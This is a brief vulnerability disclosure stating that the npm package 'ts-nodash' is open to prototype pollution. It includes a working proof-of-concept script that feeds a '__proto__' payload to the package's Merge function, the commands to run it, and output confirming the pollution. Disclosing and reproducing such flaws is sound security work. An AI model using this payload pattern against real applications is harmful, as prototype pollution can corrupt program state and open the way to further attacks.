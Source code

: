 # Description

`ts-nodash` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var merge = require("ts-nodash").Merge
const payload = JSON.parse('{"__proto__":{"polluted":"Yes! Its Polluted"}}');
var obj = {}
console.log("Before : " + {}.polluted);
merge(obj, payload);
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i ts-nodash # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
